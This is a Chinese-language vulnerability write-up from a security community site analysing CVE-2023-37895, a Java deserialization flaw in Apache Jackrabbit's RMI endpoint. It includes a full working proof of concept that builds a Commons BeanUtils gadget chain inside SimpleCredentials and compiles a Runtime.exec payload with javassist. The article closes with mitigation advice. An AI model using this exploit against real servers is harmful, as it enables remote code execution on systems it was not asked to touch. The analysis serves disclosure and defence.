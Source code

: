 

# 奇安信攻防社区-Apache Jackrabbit 反序列化漏洞分析（CVE-2023-37895）

### Apache Jackrabbit 反序列化漏洞分析（CVE-2023-37895）

Apache Jackrabbit 反序列化漏洞分析（CVE-2023-37895）

# 漏洞分析

Apache Jackrabbit是一个开源的内容仓库,它实现了JCR(Java Contents Repository) API规范。

JCR是一个用于内容仓库的Java API,它为内容仓库定义了一套标准接口,以便应用程序可以通过这些标准接口访问不同的内容仓库实现。

Jackrabbit通过这些JCR接口提供了一系列内容仓库功能,比如层次结构节点管理、版本控制、 Observation、查询、锁定、事务等。它广泛用于JavaEE应用中需要内容仓库功能的场景。

Jackrabbit的/rmi路径下提供了RMI服务,这可以使远程客户端通过RMI协议访问Jackrabbit服务器端的内容仓库。客户端可以获取 Repository 对象后,就可以通过JCR API对内容仓库进行操作。

通过web.xml得到`/rmi`的Servlet为`org.apache.jackrabbit.servlet.remote.RemoteBindingServlet`

![image-20230727155734831](assets/1705470930-7e3beeca5e5d72d24b3d7835c1810231.png)

![image-20230727160138191](assets/1705470930-c7cada83b3295bb67f74cf0b25595ccb.png)

这里直接通过`RemoteBindingServlet` 的 `getRemoteRepository()` 方法获取Repository对象，然后转化为Stub代理对象返回给Response。

跟进看看具体逻辑

![image-20230727160329701](assets/1705470930-bd6a88c850d6030d6f40eab6aed3c2a4.png)

这里调用 `getRemoteAdapterFactory()` 获取 `RemoteAdapterFactory` 实例,默认是`ServerAdapterFactory`

然后调用 `ServerAdapterFactory` 的 `getRemoteRepository()` 方法获取Repository对象

![image-20230727160536822](assets/1705470930-85fddf0b213d97064a2a828b1e7b2d79.png)

当客户端获取到Repository对象后，可以调用Repository的login函数

![image-20230727160726345](assets/1705470930-6f8a6a88b026deacf9f0bd2896128816.png)

跟进到实现类

![image-20230727160806040](assets/1705470930-51d56c664cdc4f2e941ac7ae7cfcd594.png)

继续跟进

![image-20230727160908206](assets/1705470930-7cd3d14ec6c5612cae27714f2dd0ecda.png)

最后通过RMI将客户端的Credentials类传输到了服务端，其中用的RMI底层的JRMP协议，将客户端序列化后，将序列化数据传输到服务端后再反序列化。如果我们传输的一个恶意Credentials对象，则会执行相关的一些恶意代码

![image-20230727160938886](assets/1705470930-5889513b04cf8c934a41db5c431a1d52.png)

该项目包含了Commons BeanUtils组件，可利用Commons BeanUtils链构造恶意Credentials对象

![image-20230727161306272](assets/1705470930-55ea3e99737b7a1aba6e6f7576732da0.png)

而Credentials是一个继承`Serializable`的空接口

![image-20230727161402220](assets/1705470930-5f8b5a0498ec420170d0d777efa44686.png)

我们看到4个实现之一的`SimpleCredentials`类，可以用这个类来封装Commons BeanUtils攻击链

![image-20230727161437617](assets/1705470930-61511a94026cf39611d0e33148972fb4.png)

SimpleCredentials类中的attributes属性是一个Map:

private Map<String,Object> attributes \\= new HashMap<String,Object>();

它被声明为可以存储任意Object类型对象。我们通过setAttribute()方法将构造的恶意PriorityQueue对象存放到这个attributes Map中

SimpleCredentials exp \\= new SimpleCredentials("admin","admin".toCharArray());  
exp.setAttribute("admin",payload);

当反序列化包含恶意PriorityQueue的SimpleCredentials对象时，会递归反序列化它的所有属性，其中就包含了attributes这个Map，反序列化attributes时,也会反序列化其中存放的PriorityQueue对象，这样就会触发PriorityQueue对象中的反序列化逻辑，实现RCE

# 漏洞复现

POC：

package org.example;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.beanutils.BeanComparator;  
import java.lang.reflect.Field;  
import java.util.PriorityQueue;  
​  
import org.apache.jackrabbit.rmi.repository.URLRemoteRepository;  
import javax.jcr.Repository;  
import javax.jcr.SimpleCredentials;  
import static org.example.TemplatesImpl.getTemplatesImpl;  
​  
public class Exp {  
public static void main(String\[\] args) throws Exception {  
byte\[\] code \\= getTemplatesImpl("open -a calculator");  
byte\[\]\[\] codes \\= {code};  
TemplatesImpl obj \\= new TemplatesImpl();  
setFieldValue(obj, "\_bytecodes",codes);  
setFieldValue(obj, "\_name", "aaaa");  
setFieldValue(obj, "\_tfactory", new TransformerFactoryImpl());  
BeanComparator comparator \\= new BeanComparator(null,String.CASE\_INSENSITIVE\_ORDER);  
final PriorityQueue<Object> payload \\= new PriorityQueue<Object>(2, comparator);  
payload.add("1");  
payload.add("1");  
setFieldValue(comparator, "property", "outputProperties");  
setFieldValue(payload, "queue", new Object\[\]{obj, obj});  
​  
​  
SimpleCredentials exp \\= new SimpleCredentials("admin","admin".toCharArray());  
exp.setAttribute("admin",payload);  
Repository repository \\= new URLRemoteRepository("[http://localhost:8080/rmi](http://localhost:8080/rmi)");  
repository.login(exp);  
}  
​  
public static void setFieldValue(Object target, String name, Object value) throws Exception {  
Class c \\= target.getClass();  
Field field \\= c.getDeclaredField(name);  
field.setAccessible(true);  
field.set(target,value);  
}  
}  
​  
​

TemplatesImpl类

package org.example;  
​  
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtConstructor;  
​  
public class TemplatesImpl {  
public static byte\[\] getTemplatesImpl(String cmd) {  
try {  
ClassPool pool \\= ClassPool.getDefault();  
CtClass ctClass \\= pool.makeClass("Evil");  
CtClass superClass \\= pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");  
ctClass.setSuperclass(superClass);  
CtConstructor constructor \\= ctClass.makeClassInitializer();  
constructor.setBody(" try {\\n" +  
" Runtime.getRuntime().exec(\\"" + cmd +  
"\\");\\n" +  
" } catch (Exception ignored) {\\n" +  
" }");  
byte\[\] bytes \\= ctClass.toBytecode();  
ctClass.defrost();  
return bytes;  
} catch (Exception e) {  
e.printStackTrace();  
return new byte\[\]{};  
}  
}  
}

运行POC:

![image-20230731114549831](assets/1705470930-cce2b6e9d61cb78c78b96686a6dc12bc.png)

# 处置建议

-   使用网络ACL限制访问 JackRabbit 的来源，而且建议如非必要，不要将 JackRabbit 暴露在互联网上
-   官方补丁链接:[https://github.com/apache/jackrabbit/tags](https://github.com/apache/jackrabbit/tags)
